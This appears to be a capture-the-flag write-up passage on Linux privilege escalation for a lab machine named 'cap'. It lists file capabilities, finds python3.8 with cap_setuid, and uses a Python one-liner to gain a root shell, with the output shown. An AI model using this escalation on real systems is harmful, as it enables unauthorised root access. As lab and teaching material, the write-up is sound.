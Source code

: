 # Privilege Escalation

## cap_setuid capability privilege escalation

Enumerated capabilities:

```bash
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

nathan@cap:~$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

[Linux Capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#exploitation-example)

```bash
nathan@cap:/var$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:/var$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
root@cap:/var# id && hostname && ifconfig
uid=0(root) gid=1001(nathan) groups=1001(nathan)
cap
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.245  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:ac8f  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:ac8f  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:ac:8f  txqueuelen 1000  (Ethernet)
        RX packets 949768  bytes 106709332 (106.7 MB)
        RX errors 0  dropped 65  overruns 0  frame 0
        TX packets 955802  bytes 495297172 (495.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 7926  bytes 608078 (608.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7926  bytes 608078 (608.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
